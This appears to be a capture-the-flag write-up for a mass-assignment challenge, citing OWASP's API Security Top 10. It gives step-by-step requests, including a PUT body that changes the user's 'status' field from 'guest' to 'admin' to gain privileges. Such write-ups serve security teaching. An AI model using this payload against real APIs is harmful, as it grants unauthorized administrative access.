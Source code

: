 # Challenge17: API - Mass Assignment

## Ref:
+ OWASP API Security TOP 10: https://owasp.org/API-Security/editions/2019/en/0xa6-mass-assignment/

## Solution
    
1. Create a new account using /api/signup 
2. Log in to that account using /api/login
3. Get your user information by request GET to /api/user, and this is the result:

```json
{
    "id": ...,
    "username": ...,
    "note": ...,
    "status": "guest"
}
```


4. Now based on best practice on API naming convention. We can try send a PUT request to /api/user with:

```json
{
    "id": ...,
    "username": ...,
    "note": ...,
    "status": "admin"
}

```

5. Now your status is admin :). You can get your flag.
